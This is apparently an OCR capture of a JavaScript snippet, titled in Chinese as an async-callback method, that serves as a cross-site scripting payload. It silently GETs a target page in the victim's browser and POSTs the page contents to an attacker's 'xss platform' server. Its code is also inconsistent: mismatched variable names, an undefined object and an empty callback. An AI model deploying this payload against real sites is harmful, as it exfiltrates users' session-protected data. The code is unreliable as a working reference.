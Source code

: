 方法2：异步方法+回调函数

```
function initialize() {
    var xmlHttp;
    if (window.XMLHttpRequest)
    {// code for IE7+, Firefox, Chrome, Opera, Safari
        xmlhttp=new XMLHttpRequest();
    }
    else
    {// code for IE6, IE5
        xmlhttp=new ActiveXObject("Microsoft.XMLHTTP");
    }
    return xmlHttp;
}
function getAsynchronous(url, callback) {
    var xmlHttp=initialize();
    xmlhttp.open("GET",url,true);
    xmlhttp.send();
    xmlhttp.onreadystatechange=function()
    {
        if (xmlhttp.readyState==4 && xmlhttp.status==200)
        {
            if (callback) 
            {
                callback(xmlhttp.responseText);
            }
        }
    }
}
function postAsynchronous(url, data, type, callback) {
    var xmlHttp=initialize();
    xmlhttp.open("POST",url,true);
    xmlhttp.setRequestHeader("Content-type",type);
    xmlhttp.send(encodeURIComponent(data));
    xmlhttp.onreadystatechange=function()
    {
        if (xmlhttp.readyState==4 && xmlhttp.status==200)
        {
            if (callback) 
            {
                callback(a.responseText);
            }
        }
    }
}
var xmlhttp;
var serverUrl = "https://<xss platform ip>/data"
var targetUrl = "<target url>" + "?t=" + Math.random();
getAsynchronous(targetUrl, function(responseText){postAsynchronous(serverUrl, "location=" + targetUrl + ";data=" + responseText, "application/x-www-form-urlencoded", "");});
```
